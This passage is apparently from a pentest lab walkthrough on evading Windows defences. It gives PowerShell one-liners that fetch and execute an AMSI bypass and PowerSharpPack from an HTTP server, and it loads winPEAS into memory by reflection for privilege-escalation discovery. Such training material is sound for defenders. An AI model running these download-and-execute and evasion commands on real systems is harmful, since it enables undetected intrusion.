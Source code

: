 
- We put the bypass script on our disk and load it remotely
```
python3 -m http.server 8080
```

```
(new-object system.net.webclient).downloadstring('http://192.168.56.1:8080/amsi_rmouse.txt')|IEX
```


- Once we have done that, we can play what we want with the condition to don’t touch the disk !  #the_disk_is_lava
- We can now play all our .net application by running them directly with execute assembly.

### winPeas without touching disk

- My favorite tools to look for privilege escalation is without a doubt [winpeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
- We already bypass amsi on the previous step, what we can do now to avoid detection is put winpeas on an http server and load it in memory
- [This article](https://www.praetorian.com/blog/running-a-net-assembly-in-memory-with-meterpreter/) explain very well how to load and run an assembly with powershell full in memory.
```
cd /var/www/html<br>wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany_ofs.exe
python3 -m http.server 8080
```


- And play winPeas from memory with the following powershell commands (As winPeas is in .net we load the assembly and run it directly) :
```
$data=(New-Object System.Net.WebClient).DownloadData('http://192.168.56.118:8080/winPEASany_ofs.exe');
$asm = [System.Reflection.Assembly]::Load([byte[]]$data);
$out = [Console]::Out;$sWriter = New-Object IO.StringWriter;[Console]::SetOut($sWriter);
[winPEAS.Program]::Main("");[Console]::SetOut($out);$sWriter.ToString()
```

- WinPeas take several minutes to complete and give the prompt back with all the info (without the capture of the console out the output is empty in our basic powershell reverseshell, if you got a “real” shell you don’t have to do that and just launch the `[winPEAS.Program]::Main("");` without the console stuff, thanks to PowerSharpPack code for the trick)
    
- If you don’t want to be bored to compile .net app or modify them with public class and method and no exit.environment you can also use [PowerSharpPack](https://github.com/S3cur3Th1sSh1t/PowerSharpPack) and get everything done for you (thanks again to @ShitSecure).
    
```
iex(new-object net.webclient).downloadstring('http://192.168.56.1:8080/PowerSharpPack/PowerSharpPack.ps1')<br>PowerSharpPack -winPEAS
```
- And we get the information of SEImpersonate Privilege to use for escalation 

### Packing your .net binary for powershell

- If you don’t want to use binary from internet (and you should don’t use pre-compiled code grabbed on github on your pentest mission), you can also pack you own binary with the following script : [EncodeAssembly.ps1](https://gist.github.com/Mayfly277/2e5f34a7e7f70798d1f19c0c35f9fa0e)
- This script is a modification of the one from @snovvcrash [website](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/av-edr-evasion/dotnet-reflective-assembly) and some code of PowerSharpPack.
    